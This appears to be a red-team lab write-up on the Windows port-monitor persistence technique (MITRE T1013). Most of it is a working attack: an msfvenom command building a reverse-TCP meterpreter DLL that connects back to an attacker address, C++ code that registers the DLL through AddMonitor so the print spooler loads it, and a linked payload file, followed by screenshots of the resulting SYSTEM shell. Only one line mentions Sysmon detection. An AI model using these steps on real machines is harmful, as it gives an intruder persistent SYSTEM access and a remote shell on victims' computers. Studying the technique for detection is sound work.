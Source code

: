 ```yaml
---
layout: post
title: "t1013 addmonitor"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


---
description: 'Persistence, Privilege Escalation'
---

# AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../../.gitbook/assets/monitor-loaddll.png)

![](../../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../../.gitbook/assets/rundll-connect.png)

![](../../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}
@spotheplanet
